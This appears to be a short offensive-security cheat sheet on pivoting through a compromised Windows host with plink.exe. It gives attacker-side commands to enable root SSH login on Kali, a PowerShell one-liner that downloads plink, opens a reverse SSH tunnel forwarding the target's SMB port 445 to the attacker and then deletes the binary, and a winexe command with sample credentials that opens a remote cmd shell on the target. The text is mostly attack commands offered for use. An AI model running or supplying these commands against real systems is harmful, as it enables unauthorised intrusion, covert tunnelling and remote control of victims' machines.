


Windows target (plink.exe)
0. Plink download
x86 → https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe
x64 → https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
C:\> systeminfo #to know the architecture
1. Kill the SMB server running on the attacker machine
root@kali:/# pkill --full smbserver.py
We need to do that, because now we want to forward port 445, but if it is in use we cannot do that
2. Make sure that the SSH service permits root user to logon with password
root@kali:/# vim /etc/ssh/sshd_config
root@kali:/# service ssh restart #restart the ssh service
root@kali:/# service ssh restart #restart the ssh service

Make sure that PermitRootLogin is set to "yes"
3. Connect Target Windows with the Attacker
plink.exe requires you to SSH to Kali, and then uses the SSH tunnel to forward ports.
C:\> plink.exe <user>@<IpAttacker> -R <attackerPort>:<targetIP>:<targetPort>
<target-IP> is usually local (127.0.0.1).
example: All in one command
PS> (new-object System.Net.WebClient).DownloadFile("https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe", "$env:userprofile\desktop\plink.exe");Invoke-Expression "$env:userprofile\desktop\plink.exe root@192.168.147.139 -R 445:127.0.0.1:445";Remove-Item -Path "$env:userprofile\desktop\plink.exe";

ssh session established and port 445 of the Attacker machine is being forwarded to the port 445 of the Target Windows machine over ssh
4. Connect via port fowarding to the target Windows machine
root@kali:/# winexe -U 'admin%password123' //127.0.0.1 cmd.exe